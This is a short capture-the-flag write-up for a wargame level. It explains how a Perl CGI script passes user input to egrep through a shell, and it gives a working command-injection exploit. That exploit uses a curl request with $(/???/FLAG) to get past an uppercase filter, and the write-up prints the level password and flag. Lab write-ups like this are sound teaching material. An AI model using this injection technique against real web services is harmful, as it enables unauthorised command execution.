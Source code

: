 username: level12  
password: fa6v5ateaw21peobuub8ipe6s
---

HTTP server listening on port 4646, it uses `/var/www/level12/level12.pl` as index.

Apache configuration

```
$ cat /etc/apache2/sites-available/level12.conf 
```

`level12.pl` takes two parameters x and y and apply to filters on x:

* `$xx =~ tr/a-z/A-Z/;` : change all lowercase letters to uppercase
* `$xx =~ s/\s.*//;` : removes everything from the first white space it encounters

Then it passes `$xx` to `egrep` command which is being executed on the system shell.

To get the flag run the following

```
echo 'getflag > /tmp/flg' > /tmp/FLAG && chmod +x /tmp/FLAG
curl 'http://localhost:4646?x=$(/???/FLAG),y=1' && cat /tmp/flg
```

The flag is: g1qKMiRpXf53AWhDaU7FEkczr
